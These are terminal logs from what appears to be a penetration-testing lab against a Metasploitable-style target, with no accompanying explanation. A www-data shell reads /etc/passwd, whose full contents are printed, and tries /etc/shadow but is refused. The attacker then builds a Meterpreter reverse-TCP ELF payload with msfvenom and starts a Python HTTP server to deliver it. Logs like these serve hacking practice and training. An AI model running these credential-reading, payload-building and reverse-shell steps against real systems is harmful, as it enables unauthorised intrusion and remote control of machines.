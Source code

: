 ```
```

```
www-data@d1d6a9361621:/var/www$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:65534::/var/lib/snmp:/bin/false
```

```
www-data@d1d6a9361621:/$ cat /etc/shadow
cat /etc/shadow
cat: /etc/shadow: Permission denied
```

```
root@attackdefense:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f elf > shell-x64.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
root@attackdefense:~# ls
Desktop  shell.php  shell-x64.elf  thinclient_drives
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
